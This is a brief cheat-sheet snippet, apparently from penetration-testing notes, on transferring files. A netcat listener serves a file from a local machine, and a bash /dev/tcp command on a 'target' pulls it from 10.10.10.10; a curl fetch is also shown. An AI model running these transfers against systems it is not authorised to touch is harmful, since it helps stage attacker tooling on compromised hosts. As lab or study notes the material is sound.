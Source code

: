 copy from a url, or from host


`curl WEB_ADDRESS/PAGE`  ==
`sudo nc -q 5 -lvnp 80 < FILE_TO_DOWNLOAD`  on local
`cat < /dev/tcp/10.10.10.10/80`  on target

`-L`: accepts redirects


